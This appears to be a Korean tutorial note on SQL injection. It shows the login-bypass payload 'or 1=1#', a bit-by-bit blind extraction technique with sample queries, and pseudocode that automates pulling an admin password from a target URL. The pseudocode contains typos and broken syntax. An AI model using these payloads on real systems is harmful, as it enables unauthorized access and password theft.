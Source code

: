 ​	=> 'or 1=1#'로 로그인 우회 가능



### 데이터 추출

![image](https://user-images.githubusercontent.com/79195793/126856549-52545039-96d3-4033-9fcd-e378645a497c.png)

​							**=> A라는 한바이트 문자열 뽑으려면 8번의 쿼리가 실행**

1.  "ABC"추출을 위해 substr로 첫번째 글자 자르기

2.  나온 "A"값을 10진수로 변환

3.  10진수 "A"값인 65를 2진수로 변환

4.  2진수를 lpad(left padding)함수로 8바이트로 맞추기

5.  8바이트로 맞춰진 2진수의 첫번째바이트(0 또는 1)을 추출해 1과 비교

   - 쿼리로 표현시 :

     select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),1,1);

     

※ **쿼리로 표현**

```pseudocode
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),1,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),2,1); //1리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),3,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),4,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),5,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),6,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),7,1); //0리턴
select substr(lpad(bin(ord(substr("ABC",1,1))),8,0),8,1); //1리턴
```

01000001 -> "A"



* **Blind SQL 삽입 자동화 코드**

  ```pseu
  j = 1;
  stack = "";
  while(1)
  {
  	for(i=1li<=8;i++){
  	rsult = get{"http://x.x.x.x/target.php?id=1234&password=1' or (select substr(lpad(bin(ord(substr(password,j,1)))),8,0),i,1) from member where id = 'admin')=1%23");
  	if(result=-Success){
  		stack += "1";
  	}else{
  		stack +="0";
  	}
  }
  print chr(bindec(stack));
  stack = "";
  j++;
  
  }
  ```
